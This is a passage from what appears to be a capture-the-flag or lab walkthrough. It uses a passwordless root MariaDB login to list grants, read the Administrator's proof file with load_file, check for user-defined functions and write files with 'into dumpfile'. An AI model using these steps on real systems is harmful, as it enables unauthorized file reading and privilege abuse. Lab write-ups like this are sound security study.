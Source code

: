 Then, we can access the MySQL database:

```
$ mysql -h 127.0.0.1 -uroot
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9
Server version: 10.4.19-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

However, there was literally nothing in the database. Instead, let's view our privileges:

```
MariaDB [test]> show grants;
+---------------------------------------------------------------------+
| Grants for root@localhost                                           |
+---------------------------------------------------------------------+
| GRANT ALL PRIVILEGES ON *.* TO `root`@`localhost` WITH GRANT OPTION |
| GRANT PROXY ON ''@'%' TO 'root'@'localhost' WITH GRANT OPTION       |
+---------------------------------------------------------------------+
```

We seem to have **all privileges** enabled on the machine, and we can also read all files on the machine:

```
MariaDB [mysql]> select load_file('C:/Users/Administrator/Desktop/proof.txt');
+-------------------------------------------------------+
| load_file('C:/Users/Administrator/Desktop/proof.txt') |
+-------------------------------------------------------+
| <REDACTED>
                    |
+-------------------------------------------------------+
```

This was interesting, because it confirmed that we are running MySQL as the Administrator. However, we cannot execute commands as the `exec` module is just not present within the machine:

```
MariaDB [mysql]> select * from mysql.func;
Empty set (0.176 sec)
```

Since we can use `load_file`, this means we can also move files all over the place, giving us privileged file write over the machine:

{% code overflow="wrap" %}
```
MariaDB [mysql]> select load_file('C:/Users/Administrator/Desktop/proof.txt') into dumpfile "C:\\root.txt"
```
{% endcode %}
